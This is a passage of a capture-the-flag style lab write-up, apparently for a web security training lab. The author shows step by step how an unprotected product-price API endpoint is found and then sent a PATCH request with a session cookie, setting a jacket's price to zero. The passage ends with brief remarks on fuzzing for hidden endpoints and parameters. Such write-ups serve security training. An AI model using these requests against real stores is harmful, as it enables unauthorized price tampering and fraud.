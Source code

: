 It is seen that the product ID is being used to fetch the price of the product. We can try to find this ID by going to the store. We want this in order to be able to interact with the API ourselves.

We see that the l33t leatherjacket we are supposed to buy has ID `1`. Now constructing a request to the api for the price:

```curl
curl https://0abf007c03b828ef80eec15c009800b6.web-security-academy.net/api/products/1/price

{"price":"$1337.00","message":"This item is in high demand - 10 purchased in the last 2h"}
```

This means we have found the correct API path.

An idea is to alter the price of the product in order for us to buy it without adding any credit. Changing the HTTP method on the product price endpoint to `PATCH` yields and "Unauthorized" status message. Both `DELETE` and `POST` are not allowed. We can try supplying our session token to see if logging in mitigates the authorization.

Sending the curl request: `curl -X PATCH https://0abf007c03b828ef80eec15c009800b6.web-security-academy.net/api/products/1/price -H 'Cookie: session=9ae9AcPIvAl3xYb4WAqM4p6uRh7wQ0SS'` where the session cookie is included provides us with the response: `{"type":"ClientError","code":400,"error":"Only 'application/json' Content-Type is supported"}` As we did not supply any content-type or any content for that matter, this is a good indication that we are able to send requests to the endpoint with the session cookie.

Adding the content-type header for json and sending an empty body provides us with the following error message:

```curl
curl -X PATCH https://0abf007c03b828ef80eec15c009800b6.web-security-academy.net/api/products/1/price -H 'Cookie: session=9ae9AcPIvAl3xYb4WAqM4p6uRh7wQ0SS' -H 'Content-Type: application/json' -d '{}'

{"type":"ClientError","code":400,"error":"'price' parameter missing in body"}
```

It seems like we are able to change the price by including a JSON body with a price parameter like so: `{"price": 0}`. the response is: `{"price":"$0.00"}`. Refreshing the site shows the new updated price of 0 dollars! We add to cart and checkout to solve this lab!

```curl
curl -X PATCH https://0abf007c03b828ef80eec15c009800b6.web-security-academy.net/api/products/1/price -H 'Cookie: session=9ae9AcPIvAl3xYb4WAqM4p6uRh7wQ0SS' -H 'Content-Type: application/json' -d '{"price": 0}'
```

### Fuzzing to find hidden endpoints

When an initial API endpoint has been found it is very useful to fuzz using wordlists consisting of naming conventions and common industry terms.

### Finding hidden parameters

It is also possible to fuzz for parameters which the API endpoints support using Burp intruder.

## Mass assignment vulnerabilities
